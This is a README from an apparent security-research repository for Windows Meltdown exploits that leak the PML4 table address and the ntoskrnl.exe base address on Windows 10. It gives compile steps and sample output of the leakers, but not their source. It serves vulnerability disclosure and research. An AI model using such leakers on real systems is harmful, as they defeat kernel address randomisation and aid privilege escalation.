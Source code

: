 
#Windows Shadow leaking

This repository contains the Windows Meltdown exploits described in the [Windows Shadow leaking (via Meltdown) blogpost](https://labs.bluefrostsecurity.de/blog/2020/06/30/windows-shadow-leaking-via-meltdown/), which can be used to leak the PML4 table address and the "ntoskrnl.exe" base address in the latest "Windows 10" versions (RS7 and 20H1).

## Sources compilation

Using the Visual Studio 64-bit command line compiler, just follow the steps bellow:

For compiling the PML4 leaker:
- Execute "cl.exe pml4leak-melt.c"

For compiling the NT leaker:
- Execute "cl.exe ntleak-melt.c"

## Output examples

PML4 table address leaker output example:

"""
C:\Users\Public>pml4leak-melt.exe

[+] Leaking PML4...
 [+] Try 0/10
[+] Elapsed time: 16 ms
[+] PML4: fffff178bc5e2000 (entry 1e2)

C:\Users\Public>
"""

NT base address leaker output example in targets with RAM memory equal or higher than 4GB:

"""
C:\Users\Public>ntleak-melt.exe
[+] Win10 build number: 19041
[+] RAM detected: 4GB

[+] Leaking PML4...
 [+] Try 0/10
[+] Elapsed time: 15 ms
[+] PML4: fffff178bc5e2000 (entry 1e2)

[+] Leaking NT base address...
 [+] PML4 entry found: fffff178bc5e2f80 (entry 0x1f0)
  [+] PDPT entry found: fffff178bc5f0000 (entry 0x0)
   [+] PD entry found: fffff178be0003e8 (entry 0x7d)
   [+] PD entry found: fffff178be000518 (entry 0xa3)
    [+] PT entry found: fffff17c000a3108 (entry 0x21)

[+] NT base delta: 0xa21000
[+] NT POINTER: 0xfffff80014621000
[+] NT BASE: 0xfffff80013c00000

[+] Elapsed time: 141 ms
[+] NT base address: 0xfffff80013c00000 (entry 0xa3)

C:\Users\Public>
"""
